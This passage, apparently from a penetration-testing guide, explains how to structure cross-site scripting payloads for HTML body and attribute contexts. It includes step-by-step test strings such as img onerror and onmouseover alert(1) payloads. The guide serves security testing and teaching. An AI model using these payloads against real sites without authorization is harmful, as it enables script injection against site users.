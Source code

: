 # Injection Context Structural Requirements

## HTML Contexts

### HTML Body Content
**Context Pattern:**
```html
<div>USER_INPUT</div>
```

**Structural Requirements:**
- **Escape:** Not needed (already in HTML context)
- **Structure:** Valid HTML tags or text
- **Payload:** HTML tags with event handlers or script tags
- **Cleanup:** Close any opened tags

**Progressive Testing:**
```
Step 1: test (baseline text)
Step 2: <img (test tag creation)
Step 3: <img src=x (test attribute)
Step 4: <img src=x onerror= (test event handler)
Step 5: <img src=x onerror=alert(1) (payload)
Step 6: <img src=x onerror=alert(1)> (cleanup)
```

### HTML Attribute Values
**Context Pattern:**
```html
<input value="USER_INPUT">
<img src="USER_INPUT">
```

**Structural Requirements:**
- **Escape:** `"` or `'` (close current attribute)
- **Structure:** Space + new attribute name
- **Payload:** Event handler with JavaScript
- **Cleanup:** `"` or `'` (close your attribute)

**Progressive Testing:**
```
Step 1: test (baseline)
Step 2: " (escape test)
Step 3: " onmouseover= (structure test)
Step 4: " onmouseover="alert(1) (payload test)
Step 5: " onmouseover="alert(1)" (cleanup test)
Step 6: " onmouseover="alert(1)" x=" (advanced cleanup)
```

### HTML Attribute Names
**Context Pattern:**
```html
<div USER_INPUT="value">
```
